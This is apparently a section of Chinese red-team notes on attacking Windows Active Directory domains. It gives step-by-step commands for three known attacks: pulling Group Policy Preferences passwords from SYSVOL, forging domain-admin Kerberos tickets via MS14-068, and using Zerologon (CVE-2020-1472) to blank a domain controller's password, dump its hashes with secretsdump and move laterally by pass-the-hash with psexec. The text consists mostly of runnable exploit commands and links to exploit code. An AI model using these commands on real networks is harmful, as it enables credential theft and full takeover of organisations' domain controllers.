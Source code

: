 

#### 3.8域内漏洞

##### 1.GPP

域管理员在使用组策略批量管理域内主机时，如果配置组策略的过程中需要填入密码，那么该密码会被保存到共享文件夹\SYSVOL下，默认所有域内用户可访问，虽然被加密，但很容易被解密。这就造成了安全隐患，现实中域管理员往往会在组策略中使用域管理员密码,组策略配置文件中的密码很容易被获得，导致权限提升。

* msf

  `run post/windows/gather/credentials/gpp`

* [Get-GPPPassword.py](http://github.com/SecureAuthCorp/impacket/tree/master/examples)

##### 2.ms14-068

该漏洞允许经过身份验证的用户在其获得的TGT票据修改PAC来伪造域管理员。

利用条件:

* 已获取域内任意账号密码
* 未打补丁:**KB3011780**

[MS14-068.exe](http://github.com/abatchy17/WindowsExploits/tree/master/MS14-068)

```bash
whoami /user #获取用户SID
MS14-068.exe -u user@baidu.com -p password -s 用户sid -d 域控
klist purge  //清空凭据
kerberos::ptc TGT_user@baidu.com.ccache
dir \\DC\c$
```

##### 3.CVE-2020-1472

2020年9月11日，安全研究员Secura发布了公告，阐明了漏洞细节，之后相关的EXP也就被构造出来。该漏洞也称为“Zerologon”，CVSS评分为10.0，号称3秒撸域控，危害严重。攻击者在通过NetLogon（MS-NRPC）协议与AD域控建立安全通道时，可利用该漏洞将AD域控的计算机账号密码置为空，从而控制域控服务器。

EXP:[http://github.com/dirkjanm/CVE-2020-1472](http://github.com/dirkjanm/CVE-2020-1472)

1.置空域控密码

`python3 cve-2020-1472-exploit.py dc_name dc_ip`

![](http://qn.laohuan.xin/2021-12-13_07-02.png)

2.获取hash

`python3 secretsdump.py redteam.red/owa\$@10.10.10.8 -just-dc -no-pass`

![](http://qn.laohuan.xin/2021-12-13_07-04.png)

3.使用hash横向移动

`python3 psexec.py administrator@10.10.10.8 -hashes aad3b435b51404eeaad3b435b51404ee:ccef208c6485269c20db2cad21734fe7`

![](http://qn.laohuan.xin/2021-12-13_07-07.png)
